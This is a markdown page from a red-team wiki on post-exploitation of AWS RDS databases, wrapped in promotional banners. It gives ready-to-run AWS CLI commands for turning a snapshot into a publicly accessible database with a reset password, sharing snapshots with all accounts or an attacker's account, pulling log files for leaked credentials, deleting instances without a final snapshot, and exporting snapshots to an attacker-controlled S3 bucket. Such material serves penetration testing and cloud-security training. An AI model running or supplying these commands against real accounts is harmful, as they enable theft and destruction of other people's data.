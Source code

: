 # AWS - RDS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## RDS

For more information check:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

If the attacker **doesn't have the `rds:CreateDBSnapshot`**, he still could make **other** created snapshots **public**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

An attacker with the `rds:DownloadDBLogFilePortion` permission can **download portions of an RDS instance's log files**. If sensitive data or access credentials are accidentally logged, the attacker could potentially use this information to escalate their privileges or perform unauthorized actions.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potential Impact**: Access to sensitive information or unauthorized actions using leaked credentials.

### `rds:DeleteDBInstance`

An attacker with these permissions can **DoS existing RDS instances**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Potential impact**: Deletion of existing RDS instances, and potential loss of data.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with this permission can **export an RDS instance snapshot to an S3 bucket**. If the attacker has control over the destination S3 bucket, they can potentially access sensitive data within the exported snapshot.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potential impact**: Access to sensitive data in the exported snapshot.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
